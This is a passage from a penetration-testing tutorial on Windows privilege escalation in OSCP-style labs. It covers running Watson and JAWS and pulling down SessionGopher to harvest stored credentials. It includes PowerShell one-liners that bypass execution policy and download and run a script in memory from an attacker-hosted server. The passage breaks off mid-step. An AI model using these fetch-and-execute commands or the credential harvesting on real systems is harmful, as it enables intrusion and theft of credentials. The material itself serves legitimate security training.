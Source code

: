 ```
C:\Users\Admin>cd ..
C:\Users>cd Public
C:\Users\Public>cd Downloads
C:\Users\Public\Downloads>Watson.exe
```

### Running JAWS - Just Another Windows (Enum) Script

JAWS is another powershell library that was built with privledge escalation of the OSCP lab machines in mind. We can stage and run JAWS on a remote http server so the file never needs to hit the remote server's HDD.

```bash
root@kali:~test# git clone https://github.com/411Hall/JAWS
```

Now we can run this from the remote Windows CMD shell:

```cmd
CMD C:\> @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/jaws-enum.ps1'))"
```

Or from a Windows Powershell:

```powershell
PS C:\> IEX(New-Object Net.Webclient).downloadString('http://10.10.10.10/jaws-enum.ps1')
```

And we should see the following output start to appear:

```
Running J.A.W.S. Enumeration
        - Gathering User Information
        - Gathering Processes, Services and Scheduled Tasks
        - Gathering Installed Software
```

### Fireeye Session Gopher

Leveraging credentials is still the most common ways of privledge escalation in Windows environments. Session Gopher is a PowerShell script designed to automaticlly harvest credentials from commonly used applications.

To run Session Gopher, we will first need to pull down the latest version from the Fireeye github repository:

```
git clone https://github.com/fireeye/SessionGopher
Cloning into 'SessionGopher'...
remote: Enumerating objects: 48, done.
Unpacking objects: 100% (48/48), done.
remote: Total 48 (delta 0), reused 0 (delta 0), pack-reused 48
```

Next we can serve it up on our local KALI instance by using the simple python HTTP server:
